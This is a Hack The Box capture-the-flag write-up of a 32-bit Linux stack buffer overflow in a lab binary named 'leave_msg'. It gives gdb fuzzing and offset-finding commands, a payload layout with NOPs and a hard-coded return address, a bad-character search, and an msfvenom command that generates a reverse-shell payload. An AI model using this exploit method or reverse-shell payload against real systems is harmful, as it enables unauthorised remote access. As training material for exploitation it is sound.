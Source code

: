 # **HTB - Bufferoverflow Linux - Skill Assesment**

## **Filetype of `leave_msg`**

To determine filetype of file, we can use following command.

```
file leave_msg
```


![](p/1.png)


**Answer: ELF 32-bit**

To notes:
* Probably we work with x86 architecture

## **Testing for buffer overflow vulnerability**

Now we will check if program is vulnerable to buffer overflow, in contrary to previous CTFs, here we will use GNU Debugger (gdb).

Let's start debugging with command:

```
gdb -q leave_msg
```

Now we can try to overflow the buffer with some garbage data, for example we can use python to do this. It is worth noting that we used 2100 characters.

```
(gdb) run $(python -c "print('\x55'*2100)")
```

As a result we get segmentation fault. Debugger informs us that we have overwritten the EIP.

![](p/2.png)

**So, `leave_msg` is vulnerable to buffer overflow.**

## **Finding offset**

Now we will focus on finding offset. Firstly, we can use `pattern_create.rb` tool which is part of Metasploit framework with 2100 length (as a parameter).

![](p/3.png)

Let's use this output to fuze our vulnerable program.
```
(gdb) run $(python -c "print('<OUTPUT from pattern create>')")
```


![](p/4.png)



Now the EIP is 0x37714336, we can use `pattern_offset.rb` to determine the offset.


![](p/5.png)


**How many bytes in total must be sent before reaching EIP? 2060.**


## **Taking control of EIP**

In future we will try to exploit that vulnerability to gain some root, so we need to determine the length of shellcode, we can assume that it will be 150 byes. It can be useful to insert some no operation instruction (NOPS) before our shellcode begins so that it can be executed cleanly.

```
    Buffer = "\x55" * (2060-100-150-4) = 1806
    NOPs = "\x90" * 100
    Shellcode = "\x44" * 150
    EIP = "\x66" * 4
```

In result of exploitation we should get EIP: "\x66\x66\x66\x66".

### **Identifying bad chars**

However, before serious exploitation we need to specify bad characters. Now instead of shellcode we will provide the list of bad chars.

```
    Buffer = "\x55" * (2060-100-256-4) = 1700
    CHARS = "\x00\x01\x02..." // length is 256
    EIP = "\x66" * 4'
```
Before next steps, let's take a look at main function, in gdb use:

```
(gdb) disas main
```

In the output we can observe interesting call to `leavemsg` function. Let's put a breakpoint at it.

![](p/6.png)

Now let's exploit that program with the following command:

```
(gdb) run $(python -c 'print("\x55"*1700 + "\x00\x01\x02..." + "\x66"*4)')
```

Now take a look into memory using:

```
(gdb) x/2000xb $esp+2000
```

![](p/7.png)

We can see that there is not null byte ("\x00") so this is our first bad char. No we need to repeat the whole process.

```
    Buffer = "\x55" * (2060-100-255-4) = 1701
    CHARS = "\x01\x02..." // length is 255
    EIP = "\x66" * 4'
```

![](p/8.png)


Now we can see there is no "\x09". Note it and let's go further.

```
    Buffer = "\x55" * (2060-100-254-4) = 1702
    CHARS = "\x01\x02..." // length is 254
    EIP = "\x66" * 4'
```


![](p/9.png)


Now there is no "\x0a". Note it and let's go further.

```
    Buffer = "\x55" * (2060-100-253-4) = 1703
    CHARS = "\x01\x02..." // length is 253
    EIP = "\x66" * 4'
```


![](p/10.png)


Now there is no "\x20". After next iteration we can't see any more bad chars.


**So identified bad chars are: \x00\x09\x0a\x20**

### **Generating shellcode**

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

In result we get shellcode which length is 95 bytes.

```
    Buffer = "\x55" * (2060-100-95-4) = 1861
    NOPs = "\x90" * 100
    Shellcode = <shellcode generated by msfvenom>
    EIP = "\x66" * 4
```

Now explot it with:

```
(gdb) run $(python -c 'print("\x55"*1861 + Shellcode + "\x66"*4)')
```

Let's take a look at memory dump again:


![](p/11.png)


Below the marked line we have our shellcode, let's write that address **(0xffffd6dc)** - I'm aware that it is some space before the shellcode but it is on purpouse - we should give some time to program to respond correctly. This address will refer to our EIP.

```
    Buffer = "\x55" * (2060-100-95-4) = 1861
    NOPs = "\x90" * 100
    Shellcode = <shellcode generated by msfvenom>
    EIP = "\xdc\xd6\xff\xff"
```


### **Checking size of stack (HTB question)**


Use the following command to check size of stack:

```
(gdb) info proc all
```

![](p/12.png)

**Answer: 0x22000**


## **Gaining flag**


All what we have to do is to set listener and use our payload - exploit program.



![](p/13.png)



![](p/14.png)


**Answer: FLAG - everyone on HTB has its own unique flag**.


